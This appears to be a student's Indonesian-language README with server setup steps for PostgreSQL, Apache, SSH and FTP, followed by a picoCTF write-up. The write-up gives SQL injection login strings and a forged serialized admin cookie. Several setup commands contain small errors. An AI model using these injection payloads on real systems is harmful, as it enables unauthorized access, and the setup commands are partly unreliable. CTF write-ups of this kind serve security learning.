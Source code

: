 # Tugas B201
## Install Ubuntu Server 18.04

1. Buat boot dari Iso Ubuntu 18.04 (rufus)
2. Ikuti langkah-langkah nya



## Install PostgreSQL from source

1. Download PostgreSQL source

    ``` https://www.postgresql.org/ftp/source/v12.2/ ```

2. Install readline agar tidak error saat configure

    ```$ sudo apt-get install libreadline-dev ```

3. Extract tar dari hasil download
    
    ```$ tar postgresql-12.2.tar.gz ```

4. Masuk ke directory hasil extract an

    ```$ cd postgresql-12.2 ```

5.  Ketikkan perintah

    ```$ ./configure ```

6. Setelah selesai, compile & make file

    ```$ make ```

    lalu

    ```$ make install ```

7. Buat postgre user dan buat user data

    ```$ adduser postgres ```

    ```$ passwd postgres ```

    ```$ mkdir /usr/local/pgsql/data```

    ```$ chown postgres -R /usr/local/pgsql/data ```


8. Inisiasi postgreSQL data directory

    ```$ su -l postgres ```

    ```$ initdb -D /usr/local/pgsql/data ```

9. Include Path ke terminal
    ```$ echo 'export PATH=$PATH:/usr/local/pgsql/bin' > /etc/profile.d/postgres.sh```

9. Nyalakan service postgre

    ```$ pg_ctl start -D /usr/local/pgsql/data ```

10. Cek proses pada postgre

    ```$ ps -ef |grep -i postgres ```

11. Masuk CLI postgre

    ```$ pgsql ```

## Install Apache
1. ```$ sudo apt get update ```

2. ```$ sudo apt-get install apache2 ```

3. ```$ sudo ufw allow 'Apache'```

    Start Apache

4. ```$ sudo /etc/init.d/apache2 start``` 

    restart Apache

5. ```$ sudo /etc/init.d/apache2 restart```

    Stop Apache
6. ```$ sudo /etc/init.d/apache2 stop ```

    Status Apache
7. ```$ sudo /etc/init.d/apache2 status```

<br>

## Install SSH
1. ```$ sudo apt update ```

2.  ```$ sudo apt install openssh-server```

3. ```$ sudo ufw allow ssh ```

4. ```$ sudo /etc/init.d/ssh status```

<br>

## Install FTP
1. ```$ sudo apt update```

2. ```$ sudo apt install vsftpd```

3. ```$ sudo service vsftpd status```

4. Configure firewall

    ```$ sudo ufw allow 20/tcp ```
    ```$ sudo ufw allow 20/tcp ```




# PicoCTF Suryo 
## Iris-Name-Repo-1

``` https://2019shell1.picoctf.com/problem/27383/ ```

* Solusi Menggunakan SQL Injection pada kolom username

    ``` ' OR '1'='1' -- ```

## Iris-Name-Repo-2
* Pada kasus ini, telah difilter beberapa kata yang ada pada mysql

* Solusinya menset admin menjadi

    ``` admin'--- ```

    dan Password terserah

## Iris-Name-Repo-3
* Pada kasus ini, sql injection lebih ketat dari sebelumnya. Sehingga kata-kata yang biasa digunakan dalam sql injection tidak bisa digunakan.

* Solusi dari kasus ini adalah menggunakan algoritme enkripsi sederhana ROT13

    ``` ' BE 1=1 -- ```

## Cereal Hacker 1
* Pada masalah ini, kita diharuskan mencari cookie yang digunakan pada kredensial login.

* Setelah memasukkan username : ``` guest ``` dan password: ```guest``` (Brute Force), maka akan didapat cookies berupa

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D```

    <div style="color: blue;">
    (double urldecode + base64 decode)
    </div>

    didapatkan

    ``` O:11:"permissions":2{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";} ```

    apabila diset

    ``` O:11:"permissions":2{s:8:"username" s:5:"admin";s:8:"password";s:5:"' or '1'='1' --";}```

    akan muncul cookies baru

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJ0EnPSdBIjt9```

    dan saat dimasukkan ke halaman login maka akan muncul flag

















